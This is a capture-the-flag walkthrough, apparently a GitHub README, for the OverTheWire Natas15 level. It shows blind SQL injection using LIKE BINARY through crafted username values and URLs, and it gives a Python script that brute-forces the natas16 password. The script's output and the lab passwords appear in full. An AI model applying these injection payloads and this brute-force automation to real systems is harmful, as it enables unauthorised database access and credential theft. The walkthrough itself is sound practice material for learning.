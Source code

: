 # 🔐 Natas15 Walkthrough

In this level, we only have a `username` form, that's used to check the existence of a username in the database. Naturally we want to check if a the database contains the **natas16** information. Putting natas16 into the form we get: 

```
This user exists.
```

✅ This confirms that the form has access to the `natas16` login data. If the username exists, there's definitely a **password** stored nearby — we just need to extract it. 

## 📄 View the Source Code

As with previous levels, let’s check the [View sourcecode](http://natas15.natas.labs.overthewire.org/index-source.html) 

We see:

```php
if(array_key_exists("debug", $_GET)) {
    echo "Executing query: $query<br>";
}
```

✅ So there's a **debug mode** that will echo the executed SQL query. We can trigger it by adding `&debug` to the URL.

Try this:

```
http://natas15.natas.labs.overthewire.org/?username=&debug
```

This shows us the contents of the `username` variable, as before this will be helpfull in manipulating our `""` injection.

## 🧪 Trying basic SQL injection

Let’s test a basic injection like in Natas14:

```
INPUT:
http://natas15.natas.labs.overthewire.org?username=password" OR "1&debug

OUTPUT:
Executing query: SELECT * from users where username="password" OR "1"
This user exists.
```
**It works** — but this query just checks if any matching row exists. There’s no password input or output here. So instead of bypassing authentication, we now have to figure out the password for natas16 **one character at a time** this is called ***blind SQL injection.***


## 🎯 Blind SQL injection with `LIKE BINARY`

#### What is LIKE BINARY?
`LIKE BINARY` is a SQL operator used to perform **case-sensitive pattern matching**. It works like the standard `LIKE`, but with `BINARY`, comparisons **respect the exact letter casing** (uppercase ≠ lowercase).

- ✅ Use when you want to match patterns exactly, including letter case.  
- ❌ Without `BINARY`, `LIKE` treats uppercase and lowercase letters as the same (in most databases like MySQL).
```
Without `BINARY` (case-insensitive):
SELECT * FROM users WHERE password LIKE 'pass%';

✅ Matches: `password`, `Pass123`, `PASS`

-------------------------------------------------------

With `BINARY` (case-sensitive):
SELECT * FROM users WHERE password LIKE BINARY 'pass%';

✅ Matches: `password`  
❌ Doesn’t match: `Password`, `PASS`
```

This is exactly what we need to extract `natas16`’s password reliably.

## 🔬 LIKE BINARY Test example

To check if the password contains a character (e.g., `c`), we can try:

>[!IMPORTANT]
>Remember that url characters have their own encoding!



```
form:
username = natas16" and password LIKE BINARY "%c%

ulr:
http://natas15.natas.labs.overthewire.org/?username=natas16%22%20and%20password%20LIKE%20BINARY%20%22%c%&debug
```
This checks whether the password contains the letter `c`.  
If it does, the site returns:

***This user exists.***

## 🤖 Automating this process
So obviously we could just manually put all of the english alphabet both in lowercase and uppercase + digits, this would be, as you can probably tell, very repetetive and would take a long time. So, being the hackers that we are, let's automate the process. (The whole script with thoroughly commented sections is given in `script.py` file.)

#### Step 1: Discover valid characters
```python
# Natas15 bruteforce script :)

import requests, string

url = "http://natas15.natas.labs.overthewire.org"
username = "natas15"
password = "SdqIqBsFcz3yotlNYErZSZwblkm0lrvx"

# Get the entire English alphabet (uppercase and lowercase) plus digits.
char_data = string.ascii_letters + string.digits
password_char_data = []

# ========= Step 1: Build a character dictionary =========
print("[*] Building character set...")
for char in char_data:
    injection = f'natas16" AND password LIKE BINARY "%{char}%" -- '
    response = requests.get(url, auth=(username, password), params={'username': injection})
    if "This user exists." in response.text:
        password_char_data.append(char)
        print(f"[+] Found valid character: {char}")

print("\n[✔] Character dictionary complete:")
print("".join(password_char_data))
```

This portion of the script establishes a list `password_char_data` of all the alphanumeric characters that result in `This user exists.` After establishing this list we can deduct the whole password in the same way, but **sorted correctly**, the script continues:


#### Step 2: Brute force the password

```python
# ========= Step 2: Brute-force the password =========
print("\n[*] Starting brute-force...")
natas16_password = ""

# Natas passwords are no longer then 32 characters, via the previous passwords.
while len(natas16_password) < 32:  
    for char in password_char_data:
        attempt = natas16_password + char
        injection = f'natas16" AND password LIKE BINARY "{attempt}%" -- '
        response = requests.get(url, auth=(username, password), params={'username': injection})

        if "This user exists." in response.text:
            natas16_password += char
            print(f"[+] Password so far: {natas16_password}")


print("\n[✔] Your password for natas16:")
print(natas16_password)
```

The output should take you through all the steps it did and it looks something like this:

```
[*] Building character set...
[+] Found valid character: c
[+] Found valid character: e
[+] Found valid character: f
(...)
[+] Found valid character: Y
[+] Found valid character: 3
[+] Found valid character: 4
[+] Found valid character: 6

[✔] Character dictionary complete:
cefhijkmostuvDEGKLMPQVWXY346

[*] Starting brute-force...
[+] Password so far: h
[+] Password so far: hP
[+] Password so far: hPk
(...)
[+] Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4s
[+] Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4sG
[+] Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4sGo

[✔] Your password for natas16:
hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
```

And that's it, your natas16 password is right there! (: